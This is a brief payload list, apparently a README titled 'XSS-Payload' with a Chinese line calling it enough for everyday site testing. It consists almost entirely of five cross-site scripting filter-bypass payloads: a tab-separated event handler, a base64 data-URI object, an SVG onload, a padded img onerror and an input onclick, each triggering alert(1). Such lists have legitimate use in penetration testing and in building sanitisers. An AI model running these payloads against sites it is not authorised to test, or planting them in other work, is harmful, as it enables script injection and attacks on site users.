 # XSS-Payload
日常日站够用，XSS Payload  

***

bypass Payload：
```
<dd%09onclick=alert(1)>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>
<img/11111111111111111111111111111/src=x/onerror=alert(1)>
<input onclick=alert(1) value=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>
```

